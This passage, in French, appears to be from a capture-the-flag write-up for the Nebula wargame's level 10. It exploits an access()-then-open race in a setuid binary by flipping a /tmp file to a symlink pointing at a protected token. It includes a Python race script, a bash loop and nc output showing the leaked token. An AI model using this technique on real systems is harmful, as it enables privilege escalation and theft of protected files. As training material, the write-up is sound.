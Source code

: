 On peut donc utiliser ce binaire setuid pour envoyer le contenu d'un fichier à destination du port 18211 de l'IP de notre choix. Ca tombe bien car il y a aussi un fichier `token` qu'on ne peut normalement pas lire.

Problème : le code fait un `access` pour vérifier qu'on dispose des permissions en lecture sur le fichier avant de l'envoyer. Solution : le code recréé un nouveau descripteur de fichier plus tard, on est donc dans une situation de race condition.

Il faut que l'on fasse en sorte qu'au moment du `access` le fichier traité soit à nous et qu'au moment de la lecture ce soit un lien symbolique vers `token`.

J'ai d'abord écrit ce script en Python 2 (vieux CTF oblige) :

```python
import os

while True:
        try:
                os.unlink("/tmp/readable")
        except Exception:
                pass

        fd = open("/tmp/readable", "a")
        fd.close()

        try:
                os.unlink("/tmp/readable")
        except Exception:
                pass

        os.symlink("/home/flag10/token", "/tmp/readable")
```

Je le lance en background puis je lance une boucle infinnie pour exécuter le binaire vulnérable. De cette façon il y aura bien un moment où les planètes seront alignées :

```bash
$ python /tmp/race.py&
$ while true; do  ./flag10 /tmp/readable 127.0.0.1; done
```

Elles s'alignent même assez régulièrement :)

```bash
level10@nebula:~$ nc -l -k 18211 | uniq
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
--- snip ---
```

## Level 11
